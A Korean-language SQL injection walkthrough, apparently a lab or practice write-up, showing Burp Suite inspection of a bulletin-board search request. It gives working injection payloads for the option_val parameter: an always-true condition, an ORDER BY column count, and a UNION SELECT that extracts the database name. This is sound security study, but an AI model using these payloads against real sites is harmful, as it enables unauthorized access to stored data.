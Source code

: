 - Burp Suite를 통해 게시판 검색 요청을 확인해보니,
다음과 같은 파라미터가 POST 방식으로 전달되고 있었다.

```html
option_val=username
board_result=1111
```

- 이를 통해 내부 SQL 쿼리는 다음과 같은 구조로 동작하는 것으로 추정된다.

```sql
SELECT ? FROM ? WHERE username LIKE '%1111%';
```

- 우선 `option_val` 파라미터에 `and` 조건을 삽입하여 SQL 인젝션을 시도해보았다.

```html
username and '1'='1'#
```

![and 결과](./screenshots/sqli_7_and.png)

- 이를 통해 내부 쿼리가 항상 **참**이 되도록 만들어,
모든 게시물이 필터링 없이 노출되는 현상을 확인할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```html
username order by 10#
```

> **컬럼 개수: 10개**

```html
username union select database(),2,3,4,5,6,7,8,9,10#
```
